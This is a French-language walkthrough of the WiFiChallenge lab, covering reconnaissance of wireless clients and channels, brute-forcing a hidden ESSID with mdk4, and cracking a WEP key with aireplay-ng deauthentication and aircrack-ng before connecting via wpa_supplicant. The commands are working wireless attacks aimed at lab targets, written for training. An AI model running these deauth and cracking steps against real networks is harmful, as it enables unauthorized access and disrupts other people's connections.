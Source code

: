 # lab.wifichallenge.com

Téléchargement de la VM : https://drive.proton.me/urls/Q4WPB23W7R#Qk4nxMH8Q4oQ

## Challenges 

### 1) Reconnaissance

#### Lister les clients et voir le canal de "wifi-global"

Capturer tous les paquets du réseau :

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    
    airodump-ng wlan0mon -w scan --manufacturer --wps --band abg
    # --band abg permet de scanner 2,4Ghz et 5Ghz
    
Isoler le canal 44 si besoin : 

    airodump-ng wlan0mon -w scan --manufacturer --wps --band abg -c44


#### Obtenir l'adresse MAC du client "wifi-IT"

On capture les paquets comme avant puis on isole le canal 11 : 

    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg
    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg -c11
    
Création d'une base de données locale avec les résultats de la capture : 
    
    python3 ~/tools/wifi_db/wifi_db.py -d wifi.db ./recon*
    sqlitebrowser wifi.db
    
Il n'y a ensuite plus qu'à chercher le point d'accès voulu dans les différentes tables.

#### Trouver le probe de 78:C1:A7:BF:72:46

Même démarche qu'avant : 

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    airodump-ng wlan0mon -w recon --manufacturer --wps --band abg
    python3 ~/tools/wifi_db/wifi_db.py -d wifi.db ./recon*
    sqlitebrowser wifi.db
    
#### Donner le ESSID du point d'accès caché 

On sait que l'adresse MAC du réseau est F0:9F:C2:6A:88:26

Identifier le canal du réseau :

    airodump-ng wlan0mon

Changement de canal et bruteforcing des noms avec mdk4 :

    iwconfig wlan0mon channel 11
    
    cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > ~/wifi-rockyou.txt
    
    mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f ~/wifi-rockyou.txt

### 2) WEP

Le chiffrement WEP est vulnérable parce que chaque paquet transmis contient un IV (vecteur d'initialisation), et avec suffisamment de paquets capturés, il est possible de deviner la clé WEP. Le but est donc de capturer le plus de paquets possible pour extraire ces IVs et ensuite les utiliser pour craquer la clé WEP.

Si il n'y a aucun client, et donc peu de paquets, on peut quand même passer par les techniques d'injection de paquets ou de fake authentication. 

#### Trouver le flag de "wifi-old"

Reconnaissance : 

    sudo airmon-ng check kill
    sudo airmon-ng start wlan0
    airodump-ng wlan0mon -w wep --manufacturer --wps --band abg
    
On voit bien une ligne sur un réseau WEP : 

>  F0:9F:C2:71:22:11  -28       50     1795    0   3   54   WEP  WEP                wifi-old              Ubiquiti Networks Inc. 
    
    
Capture spécifique :

    airodump-ng wlan0mon -w wep --manufacturer --wps --band abg --bssid F0:9F:C2:71:22:11
    
On voit une station DA:92:58:2A:BF:A3 connectée.

Attaque à faire en parallèle pour désauthentifier les clients et capturer plus de données plus vite :
  
    aireplay-ng --deauth 10 -a F0:9F:C2:71:22:11 -c DA:92:58:2A:BF:A3 wlan0mon

Attaque finale avec Aircrack : 

    sudo aircrack-ng wep-01.cap

Après un peu d'attente on obtient bien la clé :

> KEY FOUND! [ 11:BB:33:CD:55 ] 

Connexion finale à ce point d'accès : 

    sudo airmon-ng stop wlan0mon  
    sudo apt install wpasupplicant
    sudo systemctl restart wpa_supplicant.service
    sudo systemctl restart network*
    sudo vim /etc/wpa_supplicant/wep.conf

Contenu du fichier : 

    network={
            ssid="wifi-old"
            key_mgmt=NONE
            wep_key0=11BB33CD55
            wep_tx_keyidx=0
    }

Connexion : 

     wpa_supplicant -D nl80211 -i wlan2 -c /etc/wpa_supplicant/wep.conf
     sudo dhclient wlan1 -v


    

    
